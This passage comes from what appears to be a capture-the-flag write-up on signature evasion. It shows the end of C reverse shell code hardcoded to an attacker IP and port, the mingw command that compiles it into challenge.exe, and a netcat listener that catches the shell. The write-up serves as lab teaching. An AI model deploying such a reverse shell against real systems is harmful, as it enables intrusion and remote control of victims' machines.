```c
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.124.76";
        int port = 5353;
        RunShell(host, port);
    }
    return 0;
}
```
{: .nolineno }

Once done, we can compile this code :

```console
root@ip-10-10-124-76:~/Desktop# x86_64-w64-mingw32-gcc test.c -lwsock32 -lws2_32 -o challenge.exe
root@ip-10-10-124-76:~/Desktop# ls
'Additional Tools'   challenge.exe   mozo-made-15.desktop   old   test.c   Tools
```
{: .nolineno }

and open a listener :

```console
root@ip-10-10-124-76:~/Desktop# nc -lnvp 5353
Listening on [0.0.0.0] (family 0, port 5353)
```
{: .nolineno }

Then sumbit the file :

![Upload](/images/thm/signatureevasion/signatureevasion_7.png)
_Upload_

And we get back a reverse shell :
